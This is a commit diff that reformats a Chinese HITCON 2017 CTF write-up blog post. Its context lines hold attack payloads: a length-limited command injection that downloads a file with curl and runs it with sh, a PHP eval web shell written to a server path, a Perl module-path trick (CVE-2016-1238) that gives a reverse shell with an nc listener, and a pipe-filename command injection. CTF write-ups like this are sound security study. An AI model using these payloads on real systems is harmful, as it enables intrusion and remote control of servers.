

Before and after one commit to mo-xiaoxi/mo-xiaoxi.github.io, a Jekyll site: the page built from _posts/2017-11-08-HITCON.md, in a window 1280 px wide and 1400 px high, scrolled down 580 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Hitcon Update

````diff
--- a/_posts/2017-11-08-HITCON.md
+++ b/_posts/2017-11-08-HITCON.md
@@ -37,7 +37,7 @@ curl xxx.xxx>1
 
 这样就能从外部下载一个1文件，而1中内容可由我们可控。另外，为了保证cmd长度小于5，我们可以这样构造，每个请求生成一个文件，然后利用ls把文件名拼接写入文件。
 
-思路参考：http://wonderkun.cc/index.html/?p=524（通过>xx,新建文件。ls >m\ 将文件名以字典序写到一个文件中。sh m*来执行文件。)
+思路参考：http://wonderkun.cc/index.html/?p=524（通过`>xx`,新建文件。`ls >m\` 将文件名以字典序写到一个文件中。`sh m*`来执行文件。)
 
 a文件内容可以如下：
 
@@ -59,7 +59,7 @@ z\>1
 echo "<?php eval(\$_REQUEST['XXXX']);?>" > /www/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2.php
 ```
 
-这样，我们就能在http://52.199.204.34/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2.php得到一个一句话木马。
+这样，我们就能在`http://52.199.204.34/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2.php`得到一个一句话木马。
 
 Payload如下：
 
@@ -124,7 +124,7 @@ _fl4g;'
 3. [王一航的解答](http://www.jianshu.com/p/82788b6949c7)
 4. [https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/](https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/)
 
-这里总结一下，我们的解法是通过构造一个符合字典序的curl xxx.xx>1来从外部下载一个文件，并sh执行它。这里的域名需要特殊构造，使其符合字典序。
+这里总结一下，我们的解法是通过构造一个符合字典序的`curl xxx.xx>1`来从外部下载一个文件，并sh执行它。这里的域名需要特殊构造，使其符合字典序。
 
 而Orange的思路用到了一个追加的方式，即\>\>指令。在http://wonderkun.cc/index.html/?p=524这篇文章中，讲到利用`ls -t>a`来防止指令乱序的问题。但当长度为5个字节时，`ls -t>a`指令就无法输入了。而且若分为多个文件指令拼接的时候，我们每次只能输入3个字符。（因为\>和\\需要占去两个字符，另外若要输入一些特殊符号，还会额外占用一个转义符号。）此时，单纯利用\>是无法解决字典序问题的，因为空格和\-\>的ascii码太靠前了。但是，如果使用追加功能的话是可以完成的，我们可以先写入ls，再追加` -t>a`。
 
@@ -410,7 +410,7 @@ int __cdecl main(int argc, const char **argv, const char **envp)
 
 比赛时就卡在了这，没做出来。赛后，看了Orange的题解，思路是对的。
 
-> #### Idea
+> Idea
 >
 > - [CVE-2016-1238](https://perl5.git.perl.org/perl.git/commit/cee96d52c39b1e7b36e1c62d38bcd8d86e9a41ab) (But the latest version of Ubuntu 17.04 in AWS is still vulnerable)
 > - Perl lookup current directory in module importing
@@ -552,7 +552,7 @@ http://10.211.55.17/index.php?filename=URI/moxiaoxi.pm&url=http://xx.xx.xx.x/bac
 
 这样就在网站上新建了一个URI目录，目录下有moxiaoxi.pm文件，文件内容为我们的backdoor。
 
-在服务器上监听端口，再访问`10.211.55.17/index.php?filename=xxx&url=moxiaoxi://momomoxiaoxi.com`就能获得一个反弹shell。这里访问moxiaoxi://momomoxiaoxi.com时，moxiaoxi是未定义模块，所以会自动搜索并加载URI中的moxiaoxi.pm 模块。
+在服务器上监听端口，再访问`10.211.55.17/index.php?filename=xxx&url=moxiaoxi://momomoxiaoxi.com`就能获得一个反弹shell。这里访问`moxiaoxi://momomoxiaoxi.com`时，moxiaoxi是未定义模块，所以会自动搜索并加载URI中的moxiaoxi.pm 模块。
 
 ```bash
  ➜  html nc -w 1 -k -lvv 1235
@@ -621,7 +621,7 @@ uid=1000(moxiaoxi) gid=1000(moxiaoxi) groups=1000(moxiaoxi),4(adm),24(cdrom),27(
 
 那么，最终的payload就很简单了。
 
-```
+```Bash
 1. 新建一个bash%20-c%20/readflag|文件
 http://13.115.136.15/?url=xxx&filename=|/readflag
 2. open文件，并触发命令执行，执行readflag，并将数据写入flag
@@ -959,7 +959,7 @@ print r.content
 >- PHP assigned a predictable function name `\x00lambda_%d` to an anonymous function
 >- Break shared VARIABLE state in Apache Pre-fork mode
 
-后续补充，最近实在太忙。
+后续补充，最近实在太忙。:(
 
 参考：
 
````
